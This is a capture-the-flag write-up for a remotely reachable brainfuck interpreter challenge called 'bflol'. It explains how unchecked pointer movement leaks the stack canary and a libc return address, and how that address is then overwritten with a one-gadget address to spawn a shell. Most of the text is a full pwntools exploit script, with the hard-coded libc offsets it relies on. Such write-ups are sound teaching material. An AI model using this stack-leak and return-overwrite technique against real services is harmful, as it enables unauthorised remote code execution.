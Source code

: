 ​Hi, the goal of this challenge it to exploit a brainfuck interpreter remotely. the binary of the interpreter is provided.

the program allocate some buffers on stack:

    3 dwords, for the ptr var, jump addr, and pc
    followed by 30000 bytes of memory
    followed by 1004 bytes of program memory
    followed by the canary (8 bytes)
    followed by libcsu_init address in program (8 bytes)
    followed by _libc_start_main return address in libc (8 bytes)

the brainfuck interpreter moves the ptr register from beginning of the 30000bytes buffer, with no limit checking.. 
* "," --> we can do ptr = getchar(), to read a char from stdin to actual pointer,
* "." --> or putchar(ptr) , dump char stored at actual pointer 
* ">" & "<" -->  increment and decrement pointer 
* "+" & "-" --> increment and decrement pointer content 
* "[" & "]" --> and do some loops..

so the exploitation goes like this, we send enough chars, to reach canary address with ptr, then we dump canary, _libcsu_init addr, and _libc_start_main return address.. this is our leaks..

we identify first libc version with the libc leak address, we identify libc6_2.28-10_amd64.so as the libc used.

then we calculate libc_base with our libc leak, then we calculate onegadget address with it. and we just rewrite the _libc_start_main return address with the onegadget address..

then, when the program returns from main...we got Shell..

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
from pwn import *
context(arch = 'amd64', os = 'linux')
context.log_level = 'info'

#binary name
challenge_exe = './bflol'

#setting
con_host = 'chal.cybersecurityrumble.de'
con_port = 19783

p = connect(con_host, con_port)

command = ',[>,]>.[>.]>>.[>.]>><<<<<<<<,>,>,>,>,>,>'

p.sendline(command)

payload = ']'*30000
payload += command
payload += (1004-len(command))*']' + '\x00'


p.send(payload)

buff = p.recv(1)
buff += p.recv()

# we dump the canary (even if we don't need it)
canary = u64('\x00'+buff[0:7])
info("canary = "+hex(canary))
# we dump a program address (even if we don't need it)
leak1 = u64(buff[8:14]+'\x00\x00')
info("leak prog = "+hex(leak1))
# we dump a libc_start_main return address (this one we need it)
libc_leak = u64(buff[14:20]+'\x00\x00')
info("leak libc = "+hex(libc_leak))

# libc_start_main return address offset for libc_base
retoffset = 0x02409b
# we calculate libc_base with our libc leak
libc_base = libc_leak - retoffset
info("base libc = "+hex(libc_base))

# the one gadget we will use
onegadget = libc_base + 0x4484f

info("onegadget = "+hex(onegadget))
info("sending one gadget (good luck)")

payload2 = struct.pack('<Q', onegadget)
p.send(payload2[0:6])

p.interactive()
```

around 2020 nobodyisnobody still pwning...


